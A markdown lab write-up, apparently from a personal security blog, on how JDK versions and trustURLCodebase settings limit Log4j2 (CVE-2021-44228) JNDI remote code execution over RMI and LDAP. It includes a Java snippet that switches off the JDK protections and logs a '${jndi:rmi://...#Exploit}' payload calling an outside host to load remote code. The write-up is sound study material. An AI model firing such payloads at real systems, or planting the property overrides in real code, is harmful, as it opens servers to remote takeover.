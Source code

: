 ```yaml
---
layout: about
category: about
toc: true
Researchname: Apache Log4J2 RCE JDK限制实验
desc: 「Apache Log4j2」
author: Bin4xin
permalink: /about/Apache-log4j2-affect-By-JDK-version-walkthrough/
---
```


# Apache Log4j-v2 RCE limit

## 对比表

{: .table}
| [JDK](#jdk) | log4j-core/log4j-api | [setProperty](#setproperty) | [RCE](#rce) | 
| :--- | :--- | :--- | :--- |
| 8u181(<8u191) | 2.14.0 | ⭕(RMI/LDAP) | ⭕(RMI/LDAP) |
| 8u181(<8u191) | 2.14.0 | ❌(RMI/LDAP) | ⭕(LDAP) |
| 8u181(<8u191) | 2.14.0 | ❌(RMI/LDAP) | ❌(RMI) |
| - | - | - | - |
| 8u332(>8u191) | 2.14.0 | ⭕(RMI/LDAP) | ⭕(RMI) |
| 8u332(>8u191) | 2.14.0 | ⭕(RMI/LDAP) | ❌(LDAP) |
| 8u332(>8u191) | 2.14.0 | ❌(RMI/LDAP) | ❌(RMI/LDAP) |

### JDK

- `JDK 6u45、7u21`之后：`java.rmi.server.useCodebaseOnly`的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的`java.rmi.server.codebase`指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了`RMI ClassLoader`的安全性。
- `JDK 6u141、7u131、8u121`之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- `JDK 6u211、7u201、8u191`之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


### setProperty

- `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");`
- `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");`

such as:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static Logger logger = LogManager.getLogger(log4j.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:rmi://192.168.3.50:4001/#Exploit}");
    }
}
```

### RCE

{: .table}
| PROTOCOL | RMI | LDAP |
| :--- | :--- | :--- |
| - | `${jndi:rmi://..}` | `${jndi:ldap://..}` |
| ⭕(RMI) | ⭕ | ❌ |
| ⭕(LDAP) | ❌ | ⭕ |
| ⭕(RMI/LDAP) | ⭕ | ⭕ |

### Ref

- [LOG4J Java exploit - WAF and patches bypass tricks](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words#-%EF%B8%8F--log4j-java-exploit---waf-and-patches-bypass-tricks){:target="_blank"}
- [CVE-2021-44228 - JNDI code exec](https://github.com/jas502n/Log4j2-CVE-2021-44228#log4j2-sys){:target="_blank"}